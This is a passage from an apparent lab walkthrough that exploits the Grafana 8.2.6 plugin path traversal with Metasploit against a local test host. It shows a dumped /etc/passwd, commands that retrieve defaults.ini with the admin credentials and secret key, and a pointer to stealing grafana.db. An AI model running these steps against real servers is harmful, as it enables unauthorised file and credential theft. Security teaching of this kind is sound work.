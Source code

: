 ```
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin
```
Running run in the console will execute the exploit and the result of the file that we have been stolen is in /home/kali/.msf4/loot/20250814232603_default_172.20.0.2_grafana.loot_972971.bin. Again you will have different file name please be careful compare to mine.
Okay! so we know that we could use this exploit to stole a file inside target machine, the next question will be what file should I steal in order to elevate this exploit, we can target the grafana local configuration that contain the username and password of the dashboard.

```
msf6 auxiliary(scanner/http/grafana_plugin_traversal) > set FILEPATH /usr/share/grafana/conf/defaults.ini
FILEPATH => /usr/share/grafana/conf/defaults.ini
msf6 auxiliary(scanner/http/grafana_plugin_traversal) > run
[+] Detected vulnerable Grafana: 8.2.6
[*] 172.20.0.2 - Progress   0/40 (0.0%)
[+] alertlist was found and exploited successfully
[+] 172.20.0.2:3000 - File saved in: /home/kali/.msf4/loot/20250814233429_default_172.20.0.2_grafana.loot_075594.ini
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Set filepath like the above configuration. How do you know thats gonna be the right path? read the documentation!  
```
admin_user = admin
admin_password = admin
secret_key = SW2YcwTIb9zpOOhoPsMm
```
With the defaults.ini has been retrieved we can look at the contents and we found the admin username and password. You can try to use this credential to login into the grafana.

Using this credential, we can login into grafana dashboard but this credential can only be used upon first login. Thus, you have to change the password, so the next question is if the user change the password of grafana what file should I retrieved?

You can used file .db from /var/lib/grafana/grafana.db, like this:
